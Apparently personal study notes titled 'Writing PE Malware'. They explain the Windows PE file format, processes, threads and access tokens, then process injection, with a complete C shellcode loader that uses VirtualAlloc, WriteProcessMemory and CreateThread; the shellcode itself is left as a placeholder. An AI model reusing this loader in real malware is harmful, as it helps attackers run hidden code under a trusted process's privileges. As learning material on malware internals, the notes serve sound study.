

# Writing PE Malware

The Windows PE file format is the format used for `.exe` and `.dll` files.
As you probably know, these are most of the critical files on a Windows OS.

## PE File Structure

The PE file format holds information that tells the OS how to load the program
into memory. Below is the general structure:



Each of the sections is covered in detail below:

### DOS Header

The DOS header is a 64 byte strcuture called `IMAGE_DOS_HEADER`. It is at the
start of *EVERY* PE File. Most of these bytes are actually not used anymore,
but there are still two important ones:

* The first two bytes are `e_magic`, the magic bytes for a PE file.
They are `4D 5A` in Hex or `MZ` in ASCII
* The last 4 bytes are `e_lfanew`. `e_lfanew` contains an offset to the PE signature at
the start of the NT Headers. `e_lfanew` is always located at an offset of `3C` (60) from
the start of the PE file because it is the last 4 bytes of a 64 byte header.

### DOS Stub

This stub is only used when the file is executed under MS-DOS. Typically it is just a
warning that the program cannot be run in DOS mode. The offset in `e_lfanew` is used
to jump over this stub, because `e_lfanew` is only recognized by the modern Windows loader.

### NT Headers

NT Headers are different for 32 and 64 bit PEs. They are defined as `IMAGE_NT_HEADERS` and
`IMAGE_NT_HEADERS64` respectively. The start of the NT Header is always `50 45 00 00` or
`PE\0\0`.

There is also a file header defined as `IMAGE_FILE_HEADER` which has 7 members. 4 of
them are important:

1. Machine is a 2 byte WORD that [indicates the CPU](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#machine-types) the PE is compiled for.
2. NumberOfSections is self explanatory
3. SizeofOptionalHeader is also self explanatory
4. Characteristics is a 2 byte flag that describes [attributes](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#characteristics)

The Optional Header is either `IMAGE_OPTIONAL_HEADER32` or 64 and contains instructions
about loading the PE into memory. Things like the entry point, preferred address etc.
The optional header contains a *Data Directory* that points to Virtual Addresses where
important data is stored.

### Sections

PE Sections contain the actual data and executable code of the program. 5 common
PE data types:

* .text is executable code
* .data is initialized data
* .bss is uninitialized data
* .rdata is read-only
* .rsrc is resources like images, icons etc.

Each section has a header that describes its size, address, raw size (pause)
and permissions.

## Processes

A program is a set of instructions that have been compiled into a PE file.
A *process* is a container that holds the resources of the running program.
Multiple instances of a program can be run concurrently as separate processes.

There are many different Winmdows APIs that can be used to start a process.
A few common ones are `CreateProcessW`, `CreateProcessAsUserW` and
`CreateProcessWithLogonW`. They all end up calling the `NtCreateUserProcess`
function anyway.

### Threads

Threads are objects that Windows schedules for execution within a process.
Every functional program has at least one thread to dictate the entry point.

### Memory

Memory is managed in chunks called pages. Each page is either small (4KB)
or large (2MB). There are APIs for Virtual Memory and Heap Memory management.

### Access Tokens

All processes also spawn with access tokens used to describe their security context.
Threads will inherit the access token of their process unless specifically
given a new one. Every securable object in Windows has a discretionary access
control list (DACL) that specifies what can *access the object*.

## Process Injection

[MITRE T1055](https://attack.mitre.org/techniques/T1055/). Injecting untrusted
code into a trusted process so you can get a shell. You just need to get the
code into the memory space of a trusted process so the code inherits the
security context of the process' owner. Regardless of TTPs, process injection has
3 distinct steps:

1. Allocate new memory to the target process
2. copy the shellcode into that memory
3. execute the shellcode

### Classic Injection

Using `VirutalAlloc`, `WriteProcessMemory` and `CreateThread`:

```c
#include <Windows.h>

int main()
{
    unsigned char shellcode[] = "..."; // your shellcode goes here

    // allocate a region of memory
    auto hMemory = VirtualAlloc(
        NULL,                       // we don't mind where it's allocated
        sizeof(shellcode),          // the size of memory region
        MEM_COMMIT | MEM_RESERVE,   // type of memory allocation
        PAGE_EXECUTE_READWRITE      // memory protection
    );

    // write the shellcode into memory
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        GetCurrentProcess(),    // handle to target process
        hMemory,                // pointer to target memory region
        &shellcode,             // pointer to data to write
        sizeof(shellcode),      // length of data to write
        &bytesWritten           // receives the number of bytes written
    );

    // create a new thread
    DWORD threadId = 0;
    auto hThread = CreateThread(
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)hMemory,  // a pointer to the thing to execute
        NULL,
        0,
        &threadId                         // receives the new thread ID
    );

    // wait for the thread to finish
    WaitForSingleObject(
        hThread,    // the handle to wait on
        INFINITE    // the length of time to wait
    );

    // close the thread handle
    CloseHandle(hThread);
}
```


I'll cover the others later.


## .NET and P/Invoke

P/Invoke allows you to access functions in unmanaged libraries from C# code.
It stands for Platform Invoke.